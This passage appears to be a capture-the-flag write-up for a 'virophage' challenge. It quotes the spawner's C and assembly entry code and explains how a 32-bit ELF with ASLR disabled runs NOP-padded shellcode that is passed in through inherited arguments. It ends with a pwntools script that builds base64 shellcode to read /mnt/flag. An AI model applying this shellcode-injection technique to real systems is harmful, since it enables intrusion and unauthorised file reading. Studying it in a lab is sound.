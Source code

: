 
The virus is a 32-bit ELF, so the decision will be `exec-all`. Along with the fact that ASLR is disabled for the virus,
we can point the entry address to the stack and execute code. But how do we put code on the stack? Looking at the entry point of the spawner:

```c
void virophage_start_main(void **stack)
{
	void *argv, *envp;
	unsigned int i;
	int argc;

	argc = (uintptr_t)*stack++;

	argv = (void *)stack;
	for (i = 0; i < argc; i++)
		stack++;
	stack++;

	envp = stack;

	_vp_sys_exit(virophage_main(argc, argv, envp));
}

__asm__ (
	".globl _start\n"
	".section .text,\"ax\",@progbits\n"
	".type _start, @function\n"
	"_start:\n"
	"	mov %rsp, %rdi\n"
	"	call virophage_start_main\n"
	"	hlt\n"
);
```

All arguments and environment variables that we pass to the spawner will be available on the stack.
Later, the virus is executed using the following parameters:

```c
_vp_sys_execve("/tmp/virus", argv, envp);
```

That means the virus will inherit all arguments and environment variables of the spawner. These will also be on the virus's stack.
We can pass a non-null shellcode as an argument for the spawner then point the entry address of the virus to it.
Padding some `nop` instructions before the actual shellcode will make it easier to identify on the stack.
I used the following script to generate a base64 encoded shellcode:

```python
from pwn import *

context.arch = 'i386'
context.os = 'linux'

print(b64e(asm(shellcraft.cat('/mnt/flag')).rjust(0x100, b'\x90')))
```
